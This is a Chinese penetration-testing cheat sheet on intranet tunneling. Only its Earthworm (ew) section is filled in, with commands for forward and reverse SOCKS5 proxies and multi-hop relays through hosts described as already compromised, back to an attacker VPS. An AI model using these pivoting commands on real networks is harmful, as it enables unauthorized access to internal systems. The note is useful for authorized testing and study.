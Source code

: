 # 内网穿透



## frp



## reGeorg





## ngrok



## ew

###  

 Ew(Earthworm)是一款当之无愧的内网穿透大杀器，应用的平台非常广泛，包括：

```
ew_for_Win.exe        适用各种Windows系统(X86指令集、X64指令集)        Windows7、Windows XPew_for_Linux32        各常见Linux发行版 (X86 指令集 CPU)        Ubuntu(X86)/BT5(X86)ew_for_linux64        各常见Linux发行版 (X64 指令集 CPU)        Ubuntu(X64)/Kali(X64)ew_for_MacOSX64        MacOS系统发行版 (X64 指令集)        苹果PC电脑，苹果serverew_for_Arm32        常见Arm-Linux系统        HTC New One(Arm-Android)/小米路由器(R1D)ew_mipsel        常见Mips-Linux系统 (Mipsel指令集 CPU)        萤石硬盘录像机、小米mini路由器(R1CM)
```

下面简单讲一下它的应用场景和命令：



### 1、正向socks v5服务器  【适用于目标机拥有一个外网IP】



服务器端执行以下命令：

ew.exe -s ssocksd -l 888



说明：服务器开启端口为888，SOCKS的代理。然后使用sockscap64添加这个IP的代理就可以使用了。



### 2、反弹socks v5服务器  【适用于目标机器没有公网IP，但可访问内网资源】



本地执行以下命令：

ew.exe -s rcsocks -l 1008 -e 888



说明：该命令的意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给888端口。



服务器端执行以下命令：

ew.exe -s rssocks -d 2.2.2.2 -e 888



说明：该命令的意思是在服务器上启动SOCKS V5服务，并反弹到IP地址为2.2.2.2的服务器888端口上。


### 二级网络环境（一）



假设我们获得了右侧A主机和B主机的控制权：



A主机配有2块网卡，一块连通外网，一块10.48.128.25只能连接内网B主机，无法访问内网其它资源。



B主机可以访问内网资源，但无法访问外网。



A.先上传ew到B主机，利用ssocksd方式启动888端口的SOCKS代理，命令如下：

ew -s ssocksd -l 888



B.上传ew到右侧A主机，运行下列命令：

ew -s lcx_tran -l 1080 -f 10.48.128.49 -g 888



说明：该命令意思是将1080端口收到的代理请求转交给B主机（10.48.128.49）的888端口。



C.可以通过访问A主机外网139.XXX.XX.113:1080来使用在B主机架设的socks5代理。



### 网络环境（二）



假设我们获得了右侧A主机和B主机的控制权限：



A主机没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。



这个操作分为4步，用到lcx_listen和lcx_slave命令：



A. 先上传ew 到左侧公网VPS上，运行下列命令：

ew –s lcx_listen –l 10800 –e 888



说明：该命令意思是在公网VPS添加转接隧道，将10800端口收到的代理请求转交给888端口。



B.上传ew到B主机，并利用ssocksd方式启动999端口的socks代理，命令如下：

ew -s ssocksd -l 999



C.上传ew 到A主机，运行下列命令：

ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.49 -g 999



说明：该命令意思是在A主机上利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来。



D. 返回我们公网VPS的CMD界面下，可以看到已经连接成功了。



现在就可以通过访问公网VPS地址 139.XXX.XX.113:10800来使用在B主机架设的socks5代理。



### 三级网络环境



三级网络环境在实际渗透中用的比较少，也比较复杂，现在我们来一个个的讲解下三级级联的用法。



假设渗透场景：



内网A主机没有公网IP但可以访问外网



B主机不能访问外网但可以被A主机访问、C主机可被B主机访问而且能够访问核心区域。



A.在左侧公网VPS上运行命令，将1080端口收到的代理请求转交给888端口：

ew -s rcsocks -l 1080 -e 888



B.在A主机上运行命令，将公网VPS的888端口和B主机的999端口连接起来：

ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.12 -g 999



C.在B主机上运行命令，将999端口收到的代理请求转交给777端口：

ew -s lcx_listen -l 999 -e 777



D.在C主机上启动SOCKS V5服务，并反弹到B主机的777端口上，命令如下。

ew -s rssocks -d 10.48.128.12 -e 777



E.在MY PC上可以通过访问公网VPS 139.XXX.XX.113:1080来使用在C主机架设的socks5代理。



整个数据流向是：SOCKS V5 → 1080 → 888 →999 →777 → rssocks

### 教程

 http://rootkiter.com/EarthWorm/ 

## ssh


